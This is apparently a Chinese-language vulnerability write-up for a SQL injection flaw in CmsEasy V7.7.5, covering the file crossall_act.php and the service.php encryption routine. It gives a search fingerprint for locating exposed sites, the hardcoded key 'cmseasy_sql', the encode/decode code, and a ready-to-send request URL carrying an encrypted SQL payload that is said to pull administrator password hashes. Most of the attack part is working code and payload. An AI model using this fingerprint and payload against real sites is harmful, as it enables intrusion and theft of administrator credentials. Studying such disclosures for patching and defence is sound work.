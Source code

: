 # CmsEasy crossall_act.php SQL注入漏洞

## 漏洞描述

CmsEasy 存在SQL注入漏洞，通过文件 service.php 加密SQL语句执行即可执行任意SQL命令

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](images/202205181431042.png)

存在漏洞的文件为 `lib/default/crossall_act.php`

![image-20220518143156363](images/202205181431425.png)

其中需要注意的代码为

```
function execsql_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->rec_query_one($sqlquery);
        echo json_encode($returndata);
        exit;
    }
    function execsqls_action(){
            $sqlquery=front::get("sql");
            $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

            $returndata=tdatabase::getInstance()->rec_query($sqlquery);
            echo json_encode($returndata);
            exit;
        }
    function execupdate_action(){
        $sqlquery=front::get("sql");
        $sqlquery=service::getInstance()->unlockString($sqlquery,"cmseasy_sql");

        $returndata=tdatabase::getInstance()->query($sqlquery);
        echo json_encode($returndata);
        exit;
    }
```

代码中传入参数 sql， 然后使用方法 unlockString 解码执行 SQL语句

查看文件 `lib/table/service.php`

```
public static function lockString($txt,$key='cmseasy_sql')
    {
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $nh = rand(0,64);
        $ch = $chars[$nh];
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = base64_encode($txt);
        $tmp = '';
        $i=0;$j=0;$k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = ($nh+strpos($chars,$txt[$i])+ord($mdKey[$k++]))%64;
            $tmp .= $chars[$j];
        }
        return urlencode($ch.$tmp);
    }

    /**对字符串进行解密。 crossall_act文件使用
     * @param $txt
     * @param string $key
     * @return bool|string
     */
    public static function unlockString($txt,$key='cmseasy_sql')
    {
        $txt = urldecode($txt);
        $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
        $ch = $txt[0];
        $nh = strpos($chars,$ch);
        $mdKey = md5($key.$ch);
        $mdKey = substr($mdKey,$nh%8, $nh%8+8);
        $txt = substr($txt,1);
        $tmp = '';
        $i=0;$j=0; $k = 0;
        for ($i=0; $i<strlen($txt); $i++) {
            $k = $k == strlen($mdKey) ? 0 : $k;
            $j = strpos($chars,$txt[$i])-$nh - ord($mdKey[$k++]);
            while ($j<0) $j+=64;
            $tmp .= $chars[$j];
        }
        return base64_decode($tmp);
    }
```

文件中得到了 `$key='cmseasy_sql'` 和加解密方法，构造请求获取账号密码md5

![image-20220518143235578](images/202205181432691.png)

```
/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5
```

![image-20220518143250910](images/202205181432971.png)